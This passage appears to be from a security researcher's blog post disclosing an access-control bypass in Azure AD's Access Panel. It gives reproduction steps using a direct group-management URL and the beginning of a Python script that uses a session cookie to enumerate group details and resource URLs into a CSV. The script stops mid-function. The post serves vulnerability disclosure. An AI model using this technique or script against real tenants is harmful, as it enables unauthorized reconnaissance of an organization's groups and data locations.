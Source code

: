 ***

### The vulnerability
#### POC
To reproduce the issue :
1. As an administrator, set the <b>Restrict user ability to access groups features in the Access Panel</b> setting on <b>Yes</b>
2. Authenticate as a non-privileged user
3. Get a group GUID
4. Access [https://account.activedirectory.windowsazure.com/r#/manageMembership?objectType=Group&objectId=<GUID>](https://account.activedirectory.windowsazure.com/r#/manageMembership?objectType=Group&objectId=)

<div class="col-sm mt-3 mt-md-0">
  <iframe width="560" height="315" src="https://www.youtube.com/embed/NgG_SMecn9k" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>
</div>


#### Automation
Here is a probably not optimized piece of code that takes a cookie as input, and generates a CSV with all group resources URLs.
{% highlight python %}
import subprocess
import sys
import csv
import requests
import json

# Used to invoke Azure CLI commands
def run(cmd):
    completed = subprocess.run(["powershell", "-Command", cmd], capture_output=True)
    return completed

# Used to export findings into CSV
def write_header():
    s = 'Id,DisplayName,JoinPolicy,SharePointUrl,TeamsUrl,OutlookUrl,YammerUrl\n'
    with open('results.csv', 'a') as result_file:
        result_file.write(s)
# Used to write line into CSV
def write_line(data):
    json_data = json.loads(data)
    print(json_data)
    s = str(json_data['Id']) + ',' + str(json_data['DisplayName']) + ',' + str(json_data['JoinPolicy']) + ',' + str(json_data['SharePointUrl']) + ',' + str(json_data['TeamsUrl']) + ',' + str(json_data['OutlookUrl']) + ',' + str(json_data['YammerUrl']) + '\n'
    
    with open('results.csv', 'a') as result_file:
        result_file.write(s)

# Used to fecth and parse data
def retrieve_data(cookie, guid):
    url_base = "https://account.activedirectory.windowsazure.com"
    url_path = "/group/DetailsData/"

    # Final values
    url = url_base + url_path + guid